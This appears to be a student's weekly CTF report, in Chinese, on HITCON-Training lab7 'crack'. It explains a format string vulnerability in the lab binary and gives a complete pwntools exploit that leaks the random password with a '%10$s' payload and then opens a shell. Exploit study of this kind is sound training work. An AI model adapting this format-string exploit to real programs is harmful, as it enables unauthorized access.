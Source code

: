# week2
## hitcon-training -- lab7(crack)
密码是随机生成的 存在格式化字符串漏洞

<img width="264" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/076b02b9-cc70-4179-80f0-a5335602685f">


可以利用格式化字符串读获取password
### exp_crack.py
```python
from pwn import *
p = process("./crack")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

password_addr = 0x804a048

payload = p32(password_addr) + b'#%10$s'
ru('name ? ')
sl(payload)

ru('#')
password = u32(rx(4))
log.info("password ==> {}".format(hex(password)))

ru('password :')
sl(str(password))

shell()

```
